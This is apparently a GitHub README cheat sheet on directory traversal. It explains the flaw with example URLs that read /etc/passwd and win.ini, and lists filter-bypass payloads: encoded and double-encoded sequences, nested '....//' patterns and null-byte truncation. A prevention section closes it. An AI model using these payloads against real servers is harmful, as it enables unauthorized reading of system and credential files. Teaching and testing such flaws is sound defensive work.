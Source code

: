 # Directory-Traversal-Cheat-Sheet

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.

Consider the following URL: <strong><em>randomwebsite111.com/loadImage?filename=cutekitty18.png</em></strong>

The loadImage URL takes a filename parameter and returns the contents of the specified file. The image files themselves are stored on disk in the location <strong>/var/www/images/</strong>. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In the above case, the application reads from the following file path: <strong>/var/www/images/cutekitty18.png</strong>

The application implements no defenses against directory traversal attacks, so an attacker can request the following URL to retrieve an arbitrary file from the server's filesystem:

<strong><em>randomwebsite111.com/loadImage?filename=../../../etc/passwd</em></strong>

This causes the application to read from the following file path:

<strong>/var/www/images/../../../etc/passwd</strong>

On Windows, both ../ and ..\ are valid directory traversal sequences, and an equivalent attack to retrieve a standard operating system file would be:
<strong><em>randomwebsite111.com/loadImage?filename=..\..\..\windows\win.ini</em></strong>


<h1>Cheat Sheet:</h1>


You might be able to use an absolute path from the filesystem root, such as <strong>filename=/etc/passwd</strong>, to directly reference a file without using any traversal sequences.

You might be able to use nested traversal sequences, such as <strong>....// or ....\/</strong>

You might be able to use various non-standard <strong>encodings</strong>:

<ul>
  <li> . = %2e</li>
  <li> / = %2f</li>
  <li> \ = %5c</li>
</ul> 

<ul>
  16-bit:
  <li> . = %u002e</li>
  <li> / = %u2215</li>
  <li> \ = %u2216</li>
</ul>

<ul>
  Double URL:
  <li> . = %252e</li>
  <li> / = %252f</li>
  <li> \ = %255c</li>
</ul>

<ul>
  UTF-8:
  <li> . = %c0%2e, %e0%40%ae, %c0ae</li>
  <li> / = %c0%af, %e0%80%af, %c0%2f</li>
  <li> \ = %c0%5c, %c0%80%5c</li>
</ul>

example: <em>..%c0%af or ..%252f</em>

If an application requires that the user-supplied filename must end with an expected file extension, such as <strong>.png</strong>, then it might be possible to use a <strong>null byte</strong> to effectively terminate the file path before the required extension. 

For example:
<strong>filename=../../../etc/passwd%00.png</strong>

<h1>Prevention</h1>
<p>The most effective way to prevent file path traversal vulnerabilities is to avoid passing user-supplied input to filesystem APIs altogether. Many application functions that do this can be rewritten to deliver the same behavior in a safer way.

If it is considered unavoidable to pass user-supplied input to filesystem APIs, then two layers of defense should be used together to prevent attacks:</p>
<ul>
  <li>The application should validate the user input before processing it. Ideally, the validation should compare against a whitelist of permitted values. If that isn't possible for the required functionality, then the validation should verify that the input contains only permitted content, such as purely alphanumeric characters.</li>
  <li>After validating the supplied input, the application should append the input to the base directory and use a platform filesystem API to canonicalize the path. It should verify that the canonicalized path starts with the expected base directory.</li>
</ul>

<h5>Example of some simple Java code to validate the canonical path of a file based on user input:</h5>

    $File file = new File(BASE_DIRECTORY, userInput);
    if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
    }
    
 
<h1>Credits</h1>
<ul>
  <li>https://portswigger.net/web-security/</li>
  <li>https://www.owasp.org/index.php/Path_Traversal</li>
  <li>https://github.com/kobs0N/</li>
</ul>
